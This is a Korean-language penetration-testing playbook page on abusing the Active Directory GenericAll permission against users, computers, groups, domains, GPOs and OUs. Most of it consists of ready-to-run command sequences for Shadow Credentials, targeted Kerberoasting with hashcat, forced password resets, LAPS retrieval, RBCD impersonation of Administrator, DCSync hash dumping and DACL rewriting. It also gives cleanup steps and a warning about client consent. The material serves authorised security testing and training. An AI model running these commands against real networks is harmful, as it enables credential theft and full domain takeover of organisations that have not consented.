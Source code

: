 # GenericAll

* 대상의 거의 모든 액티브 디렉토리 특성을 READ/WRITE 할 수 있는 권한. 사실상 대상의 소유권한(Owner Rights)을 가지고 있는 것이나 다름 없다. 대상의 종류와 상관 없이 (유저, 컴퓨터, 그룹, 도메인) 사실상 대상을 바로 장악할 수 있다.
* 공식 액티브 디렉토리 권한

대상에 따라 `GenericAll` DACL을 악용할 수 있는 방법도 다르다.

* 유저: 계정 장악
* 컴퓨터: 머신 계정 장악 + 로컬 관리자 권한 획득
* 그룹: 그룹에 공격자 유저 추가
* 도메인: DCSync 기능 사용 가능

<figure><img src="../../.gitbook/assets/genericAll-FullControl.png" alt=""><figcaption></figcaption></figure>

## 악용 - 유저

<figure><img src="../../.gitbook/assets/bh-generic-all-user-comp.png" alt=""><figcaption></figcaption></figure>

1. Shadow Credentials: `msDS-KeyCredentialsLink` 에 공격자 공개 키를 추가한 뒤, PKINIT을 이용해 사용자 인증을 한다
2. Targeted Kerberoast: 대상 유저 계정에 SPN을 추가한 뒤 해당 유저만 Kerberoasting 공격을 실행한다
3. Force Change Password: 대상 유저 계정의 비밀번호를 강제로 바꾼다

### Shadow Credentials

```
# ShadowCredentials 공격 
pywhisker.py -d domain.local -u controlledAccount -p pass --target targetAccount --action add

python3 gettgtpkinit.py -cert-pfx <pfx> -pfx-pass <pass> domain.com/target target.ccache
export KRB5CCNAME=target.ccache
python3 getnthash.py -key <AS-REP Encryption key> domain.com/target

# 공격자로서 추가했던 DeviceID만 삭제 
python3 pywhisker.py -d choi.local -u abuse -p 'Password123!' --target victim --action remove -D <DeviceID>

# 확인 
python3 pywhisker.py -d choi.local -u abuse -p 'Password123!' --target victim --action list
```

### Targeted Kerberoast

```
git clone https://github.com/ShutdownRepo/targetedKerberoast.git

python3 targetedKerberoast.py -v -d domain.com -u attacker -p pass --request-user targetUser --only-abuse

hashcat -a 0 -m 13100 <hash> <wordlist> 
```

### Force Change Password

```
# 윈도우 머신 필요. TODO: Impacket이나 다른 툴 알아보기 
net rpc password "TargetUser" "newP@ssword2022" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"
```

## 악용 - 컴퓨터

<figure><img src="../../.gitbook/assets/bh-generic-all-user-comp (1).png" alt=""><figcaption></figcaption></figure>

다음과 같은 공격으로 머신 계정을 장악한다.

1. Retrieve LAPS
2. RBCD
3. Shadow Credentials

### LAPS

```
# PyLAPS 
python3 pyLAPS.py --action get -c 'TEST01$' -u user -p pass -d domain.com --dc-ip dc

# CME 
cme ldap dc -u user -p pass -M laps 
```

### RBCD

```
# 공격 
addcomputer.py -computer-name 'TEST1337$' -computer-pass 'SUPERDUPERLONGPASSWD31337YOHEY#' -dc-host dc domain.com/user:pass
rbcd.py -delegate-from 'TEST1337$' -delegate-to 'TARGETCOMP$' -action write domain.com/user:pass
getST.py -spn CIFS/targetcomp.domain.com -impersonate Administrator domain.com/'TEST1337$':'SUPERDUPERLONGPASSWD31337YOHEY#'

# 마무리 후 클린업 
rbcd.py -delegate-from 'TEST1337$' -delegate-to 'TARGETCOMP$' -action remove domain.com/user:pass
addcomputer.py -computer-name 'TEST1337$' -computer-pass 'SUPERDUPERLONGPASSWD31337YOHEY#' -dc-host dc domain.com/user:pass -delete
```

### Shadow Credentials

```
# ShadowCredentials 공격 
pywhisker.py -d domain.local -u controlledAccount -p pass --target targetAccount --action add

python3 gettgtpkinit.py -cert-pfx <pfx> -pfx-pass <pass> domain.com/target target.ccache
export KRB5CCNAME=target.ccache
python3 getnthash.py -key <AS-REP Encryption key> domain.com/target

# 공격자로서 추가했던 DeviceID만 삭제 
python3 pywhisker.py -d choi.local -u abuse -p 'Password123!' --target victim --action remove -D <DeviceID>

# 확인 
python3 pywhisker.py -d choi.local -u abuse -p 'Password123!' --target victim --action list
```

## 악용 - 그룹

* 유저 그룹에 도메인 유저를 추가할 수 있는 `AddMember` 권한을 얻은 것이나 다름 없기에 그룹에 공격자의 유저를 추가하면 된다.

```
# 윈도우 머신 필요. TODO: Impacket 혹은 리눅스 툴 알아보기 
net rpc group addmem "TargetGroup" "TargetUser" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"
```

## 악용 - 도메인

다음과 같은 공격으로 컴퓨터 및 도메인을 장악한다.

1. DCSync: `GenericAll` 의 경우 `AllExtendedRights` 권한을 포함한다. 이 권한은 `DS-Replication-Get-Changes` 및 `DS-Replication-Get-Changes-All` 권한을 포함하는데, 이 권한을 갖고 있다면 DCSync를 실행할 수 있다.
2. LAPS: LAPS 비밀번호들을 읽어올 수 있다.
3. DCSync

### DCSync

```
cme smb <dc> -u user -p pass --ntds [vss,drsuapi]
secretsdump.py domain.com/user:pass@<dc>
```

### LAPS

```
# PyLAPS 
python3 pyLAPS.py --action get -c 'TEST01$' -u user -p pass -d domain.com --dc-ip dc

# CME 
cme ldap dc -u user -p pass -M laps 
```

## 악용 - GPO

<figure><img src="../../.gitbook/assets/genericAll-gpo-config.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/bh-genericall-gpo-real.png" alt=""><figcaption></figcaption></figure>

* 정확히 GenericAll 은 아니지만, 가장 많은 권한을 부여할 경우 GenericWrite, WriteOwner, WriteDACL 권한을 부여받을 수 있다.
  * GPO Enforced + Child Objects with Block Inheritance DISABLED 의 경우 스크린샷처럼 점선이 아닌 실선으로 나타나는데, 이때는 악용이 가능한 상태다. GPO Enforced 와 Block Inheritance 관련된 레퍼런스가 있으나, 너무 길어질까봐 생략한다.
* GPO에 따라 다르겠지만, 위 GPO의 경우 Domain Users 및 Domain Computers 에 링크가 된 상태다. 따라서 Evil GPO 형식의 공격이 가능하다.
* 컴퓨터의 경우 리버스쉘을 받거나, 로컬 관리자 유저 등을 추가할 수 있다. 단, 실제 모의해킹에서 GPO 관련된 공격은 최대한 자제하고, 고객사의 동의를 얻는 것이 좋다. GPO 잘못 건드렸다가 고객사의 모든 도메인 유저와 도메인 컴퓨터들을 망쳐버린 뒤 수억원의 소송에 휘말리기 싫다면 말이다.
  * GPO Abuse 의 문제점은, 공격 자체는 쉬운데 그걸 되돌리기가 까다롭다는 것이다. 따라서 실제 모의해킹시 잘 사용되지 않는다.

```
https://github.com/Hackndo/pyGPOAbuse.git
```

* 실제 모의해킹에서도 GPO Abuse 는 제대로 진행하지 않기에 이 플레이북에서도 실습은 패스한다.

## 악용 - OU와 Containers

<figure><img src="../../.gitbook/assets/genericAll-OU-Containers-config.png" alt=""><figcaption></figcaption></figure>

* OU나 Container에 GenericAll 등의 권한이 있을 경우 DACL을 추가하거나 수정하는 형식으로 공격자 유저 계정에 추가적인 권한을 부여할 수 있다.
* 이때, `Inheritance` 를 이용해 OU나 Container에 속하는 모든 객체들에게 DACL이 수정되기 때문에 꼭 되돌리기를 사용해야한다.

```
# DACL 수정 
dacledit.py -action write -rights FullControl -inheritance -principal 'JKHOLER' -target-dn 'OUDistinguishedName' 'domain'/'user':'password'

# 예시) DaclEdit 을 이용해 모든 컴퓨터 머신 계정들에게 FullControl 권한 획득 
dacledit.py -action write -rights FullControl -principal 'abuse' -inheritance -target-dn 'CN=Computers,DC=choi,DC=local' choi.local/abuse:'Password123!'

# 예시) FullControl 을 얻은 이후 머신 계정을 향한 ShadowCredentials 공격 
python3 pywhisker.py -d choi.local -u abuse -p 'Password123!' --target 'wkstn01$' --action add

# 되돌리기 
dacledit.py -action restore -file dacledit.bak domain.com/user:pass
```
